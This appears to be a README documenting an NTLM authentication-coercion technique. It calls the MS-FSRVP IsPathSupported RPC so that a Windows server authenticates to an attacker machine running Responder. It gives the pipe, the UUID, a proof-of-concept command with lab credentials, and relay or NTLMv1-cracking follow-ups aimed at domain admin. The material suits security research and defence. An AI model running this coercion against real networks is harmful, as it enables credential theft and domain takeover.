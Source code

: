 # MS-FSRVP - Remote call to IsPathSupported (opnum 8)

## Summary

 - **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

 - **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\\pipe\FssagentRpc`

 - **Function name**: [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb)

 - **Function operation number**: `8`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\\pipe\FssagentRpc` and bind to the desired [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol (with uuid `a8e0653c-2744-4389-a61d-7373df8b2292` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\\pipe\FssagentRpc` This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. We will then call the remote [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathSupported('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD IsPathSupported(
         [in] handle_t hBinding,
         [in] [string] LPWSTR ShareName,
         [out] BOOL* SupportedByThisProvider,
         [out] [string] LPWSTR* OwnerMachineName);
```

## References

 - Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

 - Documentation of function `IsPathSupported`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb